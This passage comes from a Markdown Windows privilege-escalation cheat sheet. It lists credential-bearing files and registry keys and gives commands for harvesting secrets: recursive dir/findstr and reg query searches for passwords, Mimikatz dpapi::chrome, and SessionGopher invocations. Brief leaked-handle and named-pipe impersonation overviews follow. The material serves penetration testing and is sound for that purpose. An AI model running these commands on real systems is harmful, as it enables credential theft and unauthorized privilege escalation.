			* `vnc.ini, ultravnc.ini, *vnc*`
			* `web.config`
			* `php.ini httpd.conf httpd-xampp.conf my.ini my.cnf (XAMPP, Apache, PHP)`
			* `SiteList.xml #McAfee`
			* `ConsoleHost_history.txt #PS-History`
			* `*.gpg`
			* `*.pgp`
			* `*config*.php`
			* `elasticsearch.y*ml`
			* `kibana.y*ml`
			* `*.p12`
			* `*.der`
			* `*.csr`
			* `*.cer`
			* `known_hosts`
			* `id_rsa`
			* `id_dsa`
			* `*.ovpn`
			* `anaconda-ks.cfg`
			* `hostapd.conf`
			* `rsyncd.conf`
			* `cesi.conf`
			* `supervisord.conf`
			* `tomcat-users.xml`
			* `*.kdbx`
			* `KeePass.config`
			* `Ntds.dit`
			* `SAM`
			* `SYSTEM`
			* `FreeSSHDservice.ini`
			* `access.log`
			* `error.log`
			* `server.xml`
			* `ConsoleHost_history.txt`
			* `setupinfo`
			* `setupinfo.bak`
			* `key3.db		 #Firefox`
			* `key4.db		 #Firefox`
			* `places.sqlite   #Firefox`
			* `"Login Data"	#Chrome`
			* `Cookies		 #Chrome`
			* `Bookmarks	   #Chrome`
			* `History		 #Chrome`
			* `TypedURLsTime   #IE`
			* `TypedURLs	   #IE`
			* `%SYSTEMDRIVE%\pagefile.sys`
			* `%WINDIR%\debug\NetSetup.log`
			* `%WINDIR%\repair\sam`
			* `%WINDIR%\repair\system`
			* `%WINDIR%\repair\software, %WINDIR%\repair\security`
			* `%WINDIR%\iis6.log`
			* `%WINDIR%\system32\config\AppEvent.Evt`
			* `%WINDIR%\system32\config\SecEvent.Evt`
			* `%WINDIR%\system32\config\default.sav`
			* `%WINDIR%\system32\config\security.sav`
			* `%WINDIR%\system32\config\software.sav`
			* `%WINDIR%\system32\config\system.sav`
			* `%WINDIR%\system32\CCM\logs\*.log`
			* `%USERPROFILE%\ntuser.dat`
			* `%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat`
	* <details><summary>Search all of the proposed files: (Click to expand)</summary><p>

			cd C:\
			dir /s/b /A:-D RDCMan.settings == *.rdg == *_history* == httpd.conf == .htpasswd == .gitconfig == .git-credentials == Dockerfile == docker-compose.yml == access_tokens.db == accessTokens.json == azureProfile.json == appcmd.exe == scclient.exe == *.gpg$ == *.pgp$ == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12$ == *.cer$ == known_hosts == *id_rsa* == *id_dsa* == *.ovpn == tomcat-users.xml == web.config == *.kdbx == KeePass.config == Ntds.dit == SAM == SYSTEM == security == software == FreeSSHDservice.ini == sysprep.inf == sysprep.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == php.ini == https.conf == https-xampp.conf == my.ini == my.cnf == access.log == error.log == server.xml == ConsoleHost_history.txt == pagefile.sys == NetSetup.log == iis6.log == AppEvent.Evt == SecEvent.Evt == default.sav == security.sav == software.sav == system.sav == ntuser.dat == index.dat == bash.exe == wsl.exe 2>nul | findstr /v ".dll"
			Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
	* <details><summary>Credentials in the RecycleBin (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* nirsoft: Password Recovery Tools -<br />[http://www.nirsoft.net/password_recovery_tools.html](http://www.nirsoft.net/password_recovery_tools.html)
		* <details><summary>Overview (Click to expand)</summary><p>
			* You should also check the Bin to look for credentials inside it
			* To recover passwords saved by several programs you can use: 
	* <details><summary>Inside the registry (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* ropnop blog: Extracting SSH Private Keys from Windows 10 SSH Agent -<br />[https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)
		* Other possible registry keys with credentials

				reg query "HKCU\Software\ORL\WinVNC3\Password"
				reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s
				reg query "HKCU\Software\TightVNC\Server"
				reg query "HKCU\Software\OpenSSH\Agent\Key"
	* <details><summary>Browsers History (Click to expand)</summary><p>
		* You should check for dbs where passwords from Chrome or Firefox are stored.
		* Also check for the history, bookmarks and favourites of the browsers so maybe some passwords are stored there.
		* Browser Password Extraction Tools
			* Mimikatz

					dpapi::chrome
			* SharpWeb [https://github.com/djhohnstein/SharpWeb](https://github.com/djhohnstein/SharpWeb)
	* <details><summary>Generic Password search in files and registry (Click to expand)</summary><p>
		* Search all file contents for "password"
			* Command Shell

					cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
					findstr /si password *.xml *.ini *.txt *.config
					findstr /spin "password" *.*
		* Search for a file with a certain filename

				dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
				where /R C:\ user.txt
				where /R C:\ *.ini
		* Search the registry for key names and passwords

				REG QUERY HKLM /F "password" /t REG_SZ /S /K
				REG QUERY HKCU /F "password" /t REG_SZ /S /K
				REG QUERY HKLM /F "password" /t REG_SZ /S /d
				REG QUERY HKCU /F "password" /t REG_SZ /S /d
	* <details><summary>Tools that search for passwords (Click to expand)</summary><p>
		* MSF Credentials -<br />[https://github.com/carlospolop/MSF-Credentials](https://github.com/carlospolop/MSF-Credentials)
			* MSF plugin that automatically executes every metasploit POST module that searches for credentials on the target
	 	* PEASS -<br />[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
	 		* Tool to automatically search for all the files containing passwords
	 		* LaZagne -<br />[https://github.com/AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne)
	 			* Tool to extract password from a system.
			* SessionGopher -<br />[https://github.com/Arvanaghi/SessionGopher](https://github.com/Arvanaghi/SessionGopher)
				* The tool searches for sessions, usernames and passwords of several tools that save this data in clear text (PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP)

						Import-Module path\to\SessionGopher.ps1;
						Invoke-SessionGopher -Thorough
						Invoke-SessionGopher -AllDomain -o
						Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
* <details><summary>Leaked Handlers (Click to expand)</summary><p>
	* <details><summary>References (Click to expand)</summary><p>
		* HackTricks -<br />[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/leaked-handle-exploitation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/leaked-handle-exploitation)
		* dronesec.pw: "Exploiting Leaked Process and Thread Handles" -<br />[http://dronesec.pw/blog/2019/08/22/exploiting-leaked-process-and-thread-handles/](http://dronesec.pw/blog/2019/08/22/exploiting-leaked-process-and-thread-handles/)
	* Vulnerability Overview
		* A process running as SYSTEM open a new process (`OpenProcess()`) with full access. The same process also create a new process (`CreateProcess()`) with low privileges but inheriting all the open handles of the main process.
		* An attacker with access to the low privileged process can grab the open handle to the privileged process created with `OpenProcess()` and inject a shellcode.
	* Attacks
		* Option 1: Attacker discovers binary
		* Option 2: Attacker identifies vulnerable process's PID
* <details><summary>Named Pipe Client Impersonation (Click to expand)</summary><p>
	 * <details><summary>References (Click to expand)</summary><p>
	 	* HackTricks: Named Pipe Client Impersonation -<br />[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/named-pipe-client-impersonation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/named-pipe-client-impersonation)
	 * <details><summary>Overview (Click to expand)</summary><p>
		* A pipe is a block of shared memory that processes can use for communication and data exchange.
		* Named Pipes is a Windows mechanism that enables two unrelated processes to exchange data between themselves, even if the processes are located on two different networks. It's very similar to client/server architecture as notions such as a named pipe server and a named pipe client exist.
		* When a client writes on a pipe, the server that created the pipe can impersonate the client if it has SeImpersonate privileges. Then, if you can find a privileged process that is going to write on any pipe that you can impersonate, you could be able to escalate privileges impersonating that process after it writes inside your created pipe. 


### Post-Enumeration

* Search for exploits that affect the kernel
	* Google
	* searchsploit
	* [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
	* [https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)

